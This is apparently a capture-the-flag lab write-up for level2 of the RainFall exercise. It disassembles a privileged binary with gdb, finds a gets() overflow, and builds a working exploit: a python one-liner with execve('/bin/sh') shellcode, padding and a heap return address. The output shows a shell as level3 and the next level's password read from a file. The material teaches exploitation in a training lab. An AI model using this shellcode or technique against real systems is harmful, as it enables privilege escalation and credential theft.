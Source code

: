 # level2

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>             <-- Call to function p()
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68                  <-- Space of 80 bytes allocated for the stack frame
   0x080484da <+6>:	mov    eax,ds:0x8049860          <-- Load of stdout to eax
   0x080484df <+11>:	mov    DWORD PTR [esp],eax       <-- Set stdout as argument to fflush()
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>    <-- Call to fflush(stdout)
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>      <-- Call to gets(buffer)
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]   <-- Load int memory
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000            <-- Add 0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000            <-- Compare memory with 0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>          <-- If not equivalent, jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620             <-- Set "(%p)\n"
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]   <-- Load int memory
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx   <-- Set int memory as argument to printf()
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax       <-- Set "(%p)\n" as argument to printf()
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>    <-- Call to printf("(%p)\n", &memory)
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1       <-- Set 1 as argument to exit()
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>     <-- Call to exit(1)
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>      <-- Call to puts(buffer)
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt> <-- Call to strdup(buffer)
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.
3. Inject a shellcode on the heap, and execute it thanks to a RIP register overwrite

We will try the third one.

### Heap based shellcode

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.

![](Ressources/pattern_generator_demonstration.png)

We then use the address returned by gdb in order to determine the size of the buffer

![](Ressources/pattern_generator_demonstration_size.png)

The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before)

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


